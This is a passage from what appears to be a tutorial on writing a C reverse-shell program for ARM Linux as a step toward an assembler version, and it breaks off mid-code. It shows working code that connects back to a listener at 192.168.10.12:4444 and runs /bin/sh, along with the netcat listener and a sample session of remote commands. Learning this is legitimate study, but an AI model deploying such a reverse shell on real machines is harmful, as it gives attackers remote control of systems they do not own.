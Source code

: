 ```
    dup2(fd, 2);

    execve("/bin/sh", 0, 0);

    return 0;
}


```

Start a listener on the remote machine 192.168.10.12. I am using openbsd-netcat.

Compile and run the reverse-shell program

```
target:$ gcc main.c -o rshell
target:$ ./rshell


```

Then on the remote machine in the shell you started the listener you can now run commands on the target

```
remote:$ nc -l 4444
ls
main.c
rshell
uname -a
Linux wandq-2 4.19.12-jumpnow #1 SMP Sat Dec 22 09:14:15 UTC 2018 armv7l armv7l armv7l GNU/Linux
^C


```

We need to know a little more about the **struct sockaddr_in** data to work with it in assembler.

I added some printfs to the code to look at it.

```
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/ip.h>
#include <arpa/inet.h>

int main()
{
    struct sockaddr_in sa;

    int fd = socket(AF_INET, SOCK_STREAM, 0);

    memset(&sa, 0xff, sizeof(sa));

    sa.sin_family = AF_INET;
    sa.sin_port = htons(4444);
    sa.sin_addr.s_addr = inet_addr("192.168.10.12");

    connect(fd, (struct sockaddr *)&sa, sizeof(sa));

    printf("sizeof(sa) = %d\n", sizeof(sa));

    unsigned char *p = (unsigned char *)&sa;

```